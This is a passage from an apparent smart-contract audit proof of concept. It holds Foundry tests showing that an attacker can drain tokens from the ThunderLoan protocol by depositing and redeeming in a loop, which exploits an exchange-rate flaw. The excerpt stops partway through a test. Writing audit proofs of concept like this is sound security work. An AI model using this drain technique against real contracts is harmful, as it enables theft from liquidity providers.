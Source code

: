 ```solidity
modifier additionalSetUp() {
    address attacker = makeAddr("attacker");
    uint256 ATTACKER_START_TOKEN_BALANCE = 10e18;
    tokenA.mint(attacker, ATTACKER_START_TOKEN_BALANCE);
    _;
}

function _depositAndRedeem() internal {
    address attacker = makeAddr("attacker");
    uint256 ATTACKER_START_TOKEN_BALANCE = 10e18;

    uint256 amount = ATTACKER_START_TOKEN_BALANCE;
    uint256 balanceBefore = tokenA.balanceOf(attacker);

    AssetToken tokenA_asset = thunderLoan.getAssetFromToken(tokenA);
    uint256 exchangeRate = tokenA_asset.getExchangeRate();
    
    // The value of Asset Token minted on depositing tokenA
    uint256 mintAmt = (amount * tokenA_asset.EXCHANGE_RATE_PRECISION()) / exchangeRate;

    vm.startPrank(attacker);

    tokenA.approve(address(thunderLoan), amount);
    thunderLoan.deposit(tokenA, amount);

    vm.stopPrank();

    assertEq(tokenA_asset.balanceOf(attacker), mintAmt);

    vm.prank(attacker);
    thunderLoan.redeem(tokenA, mintAmt);

    uint256 balanceAfter = tokenA.balanceOf(attacker);


    assertEq(tokenA_asset.balanceOf(attacker), 0);
    assert(balanceAfter > balanceBefore);

    console.log("Balance Before -", balanceBefore, "\n");
    console.log("Balance After -", balanceAfter, "\n\n");
}

function test_AttackerCanDrainTokens() public setAllowedToken hasDeposits additionalSetUp {
    address attacker = makeAddr("attacker");

    for (uint256 i = 0; i < 100; i++) {
        // attacker deposits and redeem
        _depositAndRedeem();
    }   

    uint256 balanceAfter = tokenA.balanceOf(attacker);
    console.log(balanceAfter);
}

function test_LiquidityProviderCantRedeem() public setAllowedToken hasDeposits additionalSetUp {
    // attacker deposits and redeem, gets more tokenA value when redeems
    _depositAndRedeem();

    AssetToken assetToken = thunderLoan.getAssetFromToken(tokenA);

    uint256 amountOfAssetToken = (DEPOSIT_AMOUNT * assetToken.EXCHANGE_RATE_PRECISION()) / assetToken.getExchangeRate();

```
